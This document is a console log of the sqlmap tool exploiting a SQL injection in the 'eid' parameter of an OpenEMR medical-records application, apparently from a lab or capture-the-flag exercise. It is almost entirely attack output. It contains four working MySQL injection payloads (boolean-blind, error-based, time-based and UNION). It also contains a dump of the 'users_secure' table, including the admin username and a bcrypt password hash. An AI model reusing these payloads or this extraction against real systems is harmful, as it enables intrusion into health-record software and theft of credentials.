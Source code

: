  ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:09:14 /2020-06-20/

[10:09:14] [INFO] parsing HTTP request from 'sqli.req'
[10:09:14] [INFO] resuming back-end DBMS 'mysql' 
[10:09:14] [INFO] testing connection to the target URL
[10:09:14] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (4390=4390) THEN 1 ELSE (SELECT 4655 UNION SELECT 8646) END))

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: eid=1 AND EXTRACTVALUE(1573,CONCAT(0x5c,0x7170767671,(SELECT (ELT(1573=1573,1))),0x71766a7a71))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=1 AND (SELECT 2107 FROM (SELECT(SLEEP(5)))uTiN)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170767671,0x536547556e76446b4a6662416e5474786571584c6567614d5174415753534f674a4c70646a637351,0x71766a7a71),NULL-- -
---
[10:09:14] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[10:09:14] [INFO] fetching columns for table 'users_secure' in database 'openemr'
[10:09:15] [INFO] starting 9 threads
[10:09:15] [INFO] retrieved: 'id','bigint(20)'
[10:09:15] [INFO] retrieved: 'username','varchar(255)'
[10:09:15] [INFO] retrieved: 'salt_history1','varchar(255)'
[10:09:15] [INFO] retrieved: 'password_history2','varchar(255)'
[10:09:15] [INFO] retrieved: 'salt_history2','varchar(255)'
[10:09:15] [INFO] retrieved: 'password_history1','varchar(255)'
[10:09:15] [INFO] retrieved: 'last_update','timestamp'
[10:09:15] [INFO] retrieved: 'password','varchar(255)'
[10:09:15] [INFO] retrieved: 'salt','varchar(255)'
[10:09:15] [INFO] fetching entries for table 'users_secure' in database 'openemr'  
[10:09:16] [INFO] retrieved: '1'
[10:09:16] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEc...
[10:09:16] [INFO] retrieved: '2019-11-21 06:38:40'
[10:09:16] [INFO] retrieved: ' '
[10:09:17] [INFO] retrieved: ' '
[10:09:17] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6A$'
[10:09:17] [INFO] retrieved: ' '
[10:09:17] [INFO] retrieved: ' '
[10:09:17] [INFO] retrieved: 'openemr_admin'
Database: openemr
Table: users_secure
[1 entry]
